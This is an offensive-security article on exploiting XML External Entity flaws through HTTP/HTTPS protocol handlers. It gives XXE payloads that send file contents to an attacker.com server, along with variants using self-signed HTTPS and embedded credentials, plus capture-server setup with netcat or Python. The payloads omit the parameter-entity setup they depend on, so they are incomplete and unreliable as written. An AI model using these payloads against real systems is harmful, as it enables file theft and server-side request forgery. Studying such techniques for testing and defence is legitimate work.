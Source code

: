 ```yaml
---
title: Exploiting HTTP/HTTPS Protocol XXE Vulnerabilities
description: Learn how to exploit XML External Entity vulnerabilities via HTTP/HTTPS
  protocol handlers, bypassing SSL and leveraging authentication.
keywords:
- XXE vulnerabilities
- HTTP protocol
- HTTPS protocol
- SSL bypass
- certificate validation
- data exfiltration
- HTTP authentication
---
```


# HTTP/HTTPS Protocol XXE

## Context

The purpose of this article is to demonstrate how XML External Entity (XXE) vulnerabilities can be exploited via HTTP/HTTPS protocol handlers. The technique includes bypassing SSL validation, leveraging HTTP authentication, and exfiltrating data over HTTP(S). Readers should already be familiar with XML parsing and entity resolution, the basics of HTTP and HTTPS protocols, SSL/TLS fundamentals, certificate validation mechanisms, and general XXE exploitation concepts.

## Theory

### HTTP/HTTPS Protocol Handlers in XML Parsers

Protocol handlers allow XML parsers to fetch external entities using HTTP or HTTPS URLs. When enabled, these handlers enable XXE payloads to trigger outbound web requests. Vulnerable XML parsers that are improperly configured might allow arbitrary HTTP(S) requests, leading to data exfiltration or server-side request forgery (SSRF).

### SSL/TLS and Certificate Validation Bypass in XXE

Some XML parsers do not validate SSL certificates properly. This flaw allows attackers to use self-signed or otherwise invalid certificates. If SSL validation is lax, attackers can control HTTPS endpoints for exfiltrating data through XXE payloads.

### HTTP Authentication and Custom Headers in XXE

XXE payloads that use HTTP(S) can include credentials or custom headers to access protected resources. Attackers can craft payloads that reference resources requiring authentication, supplying credentials in the URL or headers.

### Data Exfiltration via HTTP(S) in XXE

Attackers can employ XXE to read sensitive files or data. Such data is then sent to attacker-controlled HTTP(S) endpoints. Here is a simplified sequence:

```mermaid
flowchart TD
    A[Victim XML Parser] -->|Parses XXE| B[External Entity: http(s)://attacker]
    B -->|HTTP(S) Request| C[Attacker Server]
    C -->|Receives Data| D[Attacker]
```

## Practice

### Exfiltrate Sensitive Data via HTTP XXE

- **Payload:**
  ```xml
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://attacker.com:8080/?data=%file;">]>
  <root>&xxe;</root>
  ```
  This XML document defines an external entity that references an HTTP endpoint controlled by the attacker.

- Set up a web server to capture incoming requests containing exfiltrated data. This involves hosting a simple HTTP server that logs all incoming GET requests, which can be simply done with tools like netcat (`nc`), Python's HTTP server module, or tools like Burp Suite.

**Outcome:** Sensitive file contents are sent to the attacker's HTTP server.

### Bypass SSL Validation with HTTPS XXE

- **Payload:**
  ```xml
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "https://attacker.com:8443/?data=%file;">]>
  <root>&xxe;</root>
  ```

- Host an HTTPS server with a self-signed certificate to capture exfiltrated data. Use tools like `OpenSSL` to create a self-signed certificate and serve your site using it, verifying whether the vulnerable parser accepts invalid SSL certificates.

**Outcome:** Sensitive data is exfiltrated over HTTPS, potentially bypassing SSL validation.

### HTTP Basic Authentication in XXE Payloads

- **Payload:**
  ```xml
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://user:pass@attacker.com:8080/">]>
  <root>&xxe;</root>
  ```

- Monitor the attacker's server for authenticated requests, checking if the XML parser properly sends credentials included in the XXE payload.

**Outcome:** Data is sent to an attacker's endpoint using supplied HTTP authentication.

### Custom HTTP Headers in XXE Exploitation

- **Payload:**
  ```xml
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://attacker.com:8080/">]>
  <root>&xxe;</root>
  ```

- Configure the attacker's server to log all incoming headers. Monitor these logs to detect any custom or sensitive headers added by the parser, demonstrating how private data or authentication might be leaked.

**Outcome:** The attacker receives HTTP requests with potential custom or sensitive headers.

## Tools

- **Burp Suite**
- **nc** (netcat)
- **Python HTTP server (http.server)**
- **OpenSSL** 

These tools are essential for setting up capturing servers, generating payloads, and analyzing the response and behavior of the targets during exploitation.